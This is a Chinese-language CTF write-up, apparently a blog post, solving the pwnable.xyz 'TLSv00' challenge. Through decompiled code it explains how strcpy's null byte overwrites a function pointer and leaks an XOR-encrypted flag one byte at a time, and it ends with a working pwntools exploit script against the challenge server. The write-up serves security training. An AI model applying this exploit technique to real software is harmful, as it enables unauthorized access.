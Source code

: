 ```yaml
---
title: pwnable-TLSv00
date: 2019-12-21 10:56:50
tags: 
- pwn
- pwnable.xyz
---
```


# pwnable.xyz TLSv00

### 0x1 分析

老样子，看一看ELF的安全设置：

![](https://i.loli.net/2019/12/21/iZveS7pUhYbmWsF.png)

貌似只能从格式化字符串的方向入手了。

那就看一下`main`函数吧。

```c
// local variable allocation has failed, the output may be wrong!
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // eax
  unsigned int v4; // ST0C_4

  setup(*(_QWORD *)&argc, argv, envp);
  puts("Muahaha you thought I would never make a crypto chal?");
  generate_key(63LL);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        printf("> ");
        v3 = read_int32();
        if ( v3 != 2 )
          break;
        load_flag();
      }
      if ( v3 > 2 )
        break;
      if ( v3 != 1 )
        goto LABEL_12;
      printf("key len: ");
      v4 = read_int32();
      generate_key(v4);
    }
    if ( v3 == 3 )
    {
      print_flag();
    }
    else if ( v3 != 4 )
    {
LABEL_12:
      puts("Invalid");
    }
  }
}
```

我们`main`函数先生成一个`key`，我们来看一下这个函数在干什么。

```c
unsigned __int64 __fastcall generate_key(signed int a1)
{
  signed int i; // [rsp+18h] [rbp-58h]
  int fd; // [rsp+1Ch] [rbp-54h]
  char s[72]; // [rsp+20h] [rbp-50h]
  unsigned __int64 v5; // [rsp+68h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( a1 > 0 && (unsigned int)a1 <= 0x40 )
  {
    memset(s, 0, 0x48uLL);
    fd = open("/dev/urandom", 0);
    if ( fd == -1 )
    {
      puts("Can't open /dev/urandom");
      exit(1);
    }
    read(fd, s, a1);
    for ( i = 0; i < a1; ++i )
    {
      while ( !s[i] )
        read(fd, &s[i], 1uLL);
    }
    strcpy(key, s);
    close(fd);
  }
  else
  {
    puts("Invalid key size");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

`generate_key`函数接受指定长度的`a1`来读取文件`/dev/urandom`，然后我们发现有一个`strcpy`函数。也许可以利用一下末尾的`\x00`。

接下来`main`里有三个菜单。

当输入`1`的时候：重新指定`a1`的长度，来设置`key`的长度。

当输入`2`的时候：进入`load_flag();`函数

`load_flag`函数：

```c
int load_flag()
{
  unsigned int i; // [rsp+8h] [rbp-8h]
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/flag", 0);
  if ( fd == -1 )
  {
    puts("Can't open flag");
    exit(1);
  }
  read(fd, flag, 0x40uLL);
  for ( i = 0; i <= 0x3F; ++i )
    flag[i] ^= key[i];
  return close(fd);
}
```

我们发现这里其实已经加载了我们需要的`flag`，但是,打妹！他被`key`加密了。

其实到这里我们已经想到了，`strcpy`可以在`key`的最后加上`\x00`，而`0`和任意`x`异或都是`x`本身，这样就可以在`\x00`这个位置读取`flag`某一位的真实数据了！

还没分析完呢。

当输入`3`的时候：调用了`print_flag`,但是你有什么用呢？！你又不打印东西！

```c
__int64 print_flag()
{
  __int64 result; // rax

  puts("WARNING: NOT IMPLEMENTED.");
  result = (unsigned __int8)do_comment;
  if ( !(_BYTE)do_comment )
  {
    printf("Wanna take a survey instead? ");
    if ( getchar() == 121 )
      do_comment = (__int64 (*)(void))f_do_comment;
    result = do_comment();
  }
  return result;
}
```

但是分析这里我们发现：

`do_comment`是个函数指针，存储的是`f_do_comment`的起始位置，另外，在查询`f_do_comment`的时候我们还发现了另外一个函数`real_print_flag`。原来打印`flag`的函数在这里。下次一定认真读一下函数表。好好看看有什么函数。

![](https://i.loli.net/2019/12/21/uxc16V97RZ3AOKH.png)

```c
int real_print_flag(){
  return printf("%s", &flag);
}
```

但是怎么调用呢？

`f_do_comment`和`real_print_flag`差了`1f` 的距离。这咋整。还有`strcpy`可以用吗啊喂！

还真可以诶！LOOK！

![](https://i.loli.net/2019/12/21/3U5htV2McyfGxpE.png)

我们`strcpy`的时候可以在第`key`的`0x41`的地方放入`\x00`啊。原来这道题的`strcpy`要这样用。这样`do_comment`存入的地址就是`real_print_flag`了。这样就可以在下一句调用`real_print_flag`了。

那思路基本也就有了。

### 0x2 思路

首先为了调用到`real_print_flag`函数，我们需要调用`generate_key()`函数来覆盖已经存入`do_comment`的`f_do_comment`地址。

接下来通过指定`key`逐位读取与`\x00`异或的`flag`某一位。达到读取flag的目的。

### 0x3 代码

```python
from pwn import *
# context.log_level="debug"
# p=process("./challenge")
p=remote("svc.pwnable.xyz", 30006)
#----------覆盖地址-------------
p.sendlineafter("> ", "3")
p.sendlineafter("? ", "y")
p.sendlineafter("> ", "1")
p.sendlineafter(": ", "64")
#----------读取flag-----------
s = ""
i = 1
try:
	while(i < 64):
		p.sendlineafter("> ", "1")
		p.sendlineafter(": ", str(i))
		p.sendlineafter("> ", "2")
		p.sendlineafter("> ", "3")
		p.sendlineafter("? ", "n")
		s += p.recv(i+1)[-1]
		i += 1
		print s
		sleep(0.5)

except Exception as e:
	print e
	print 'i = %d'%(i)

else:
	print s
	p.interactive()
```

